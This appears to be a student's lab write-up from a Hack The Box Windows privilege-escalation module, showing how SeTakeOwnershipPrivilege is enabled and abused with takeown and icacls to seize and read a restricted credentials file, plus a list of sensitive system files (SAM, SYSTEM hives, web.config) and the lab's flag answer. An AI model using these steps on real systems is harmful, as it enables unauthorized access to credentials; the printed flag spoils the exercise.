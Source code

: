 ```yaml
---
description: Grants a user the ability to take ownership of any "securable object,"
---
```


# SeTakeOwnershipPrivilege

With this privilege, a user could take ownership of any file or object and make changes that could involve access to sensitive data, `Remote Code Execution` (`RCE`) or `Denial-of-Service` (DOS).

### Leveraging the Privilege

**Reviewing Current User Privileges**

Let's review our current user's privileges.

```powershell-session
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                              State
============================= ======================================================= ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                                Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                          Disabled
```

**Enabling SeTakeOwnershipPrivilege**

{% embed url="https://github.com/fashionproof/EnableAllTokenPrivs" %}
Use this script to enable the state
{% endembed %}

```powershell-session
PS C:\htb> Import-Module .\Enable-Privilege.ps1
PS C:\htb> .\EnableAllTokenPrivs.ps1
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```

**Choosing a Target File**

Try to find high value files that could be credentials and config files that is restricted&#x20;

Check out the target file to gather a bit more information about it.

```powershell-session
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
 
FullName                                 LastWriteTime         Attributes Owner
--------                                 -------------         ---------- -----
C:\Department Shares\Private\IT\cred.txt 6/18/2021 12:23:28 PM    Archive
```

**Checking File Ownership**

```powershell-session
PS C:\htb> cmd /c dir /q 'C:\Department Shares\Private\IT'

 Volume in drive C has no label.
 Volume Serial Number is 0C92-675B
 
 Directory of C:\Department Shares\Private\IT
 
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  .
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  ..
06/18/2021  12:23 PM                36 ...                    cred.txt
               1 File(s)             36 bytes
               2 Dir(s)  17,079,754,752 bytes free
```

owner is not shown, we likely do not have enough permissions over the object to view those details.

**Taking Ownership of the File**

Now we can use the [takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) Windows binary to change ownership of the file.

```powershell-session
PS C:\htb> takeown /f 'C:\Department Shares\Private\IT\cred.txt'
 
SUCCESS: The file (or folder): "C:\Department Shares\Private\IT\cred.txt" now owned by user "WINLPE-SRV01\htb-student".
```

**Confirming Ownership Changed**

```powershell-session
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}

Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\htb-student
```

We are now the owner

**Modifying the File ACL**

Reading the file now won't work, we need to modify the file ACL using icacls

```powershell-session
PS C:\htb> cat 'C:\Department Shares\Private\IT\cred.txt'

cat : Access to the path 'C:\Department Shares\Private\IT\cred.txt' is denied.
At line:1 char:1
+ cat 'C:\Department Shares\Private\IT\cred.txt'
```

Granting full privilege over the file.

```powershell-session
PS C:\htb> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F

processed file: C:\Department Shares\Private\IT\cred.txt
Successfully processed 1 files; Failed processing 0 files
```

### When to Use?

**Files of Interest**

Some local files of interest may include:

```shell-session
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```

## Assessment

Leverage SeTakeOwnershipPrivilege rights over the file located at "C:\TakeOwn\flag.txt" and submit the contents.

<figure><img src="../../../.gitbook/assets/image (47) (2).png" alt=""><figcaption><p>enabling the privileges</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (60) (3).png" alt=""><figcaption><p>Change the owner since the owner is unknown (the file is still unreadable)</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption><p>Granting full privilege to the file and reading the flag 1m_th3_f1l3_0wn3r_n0W!</p></figcaption></figure>
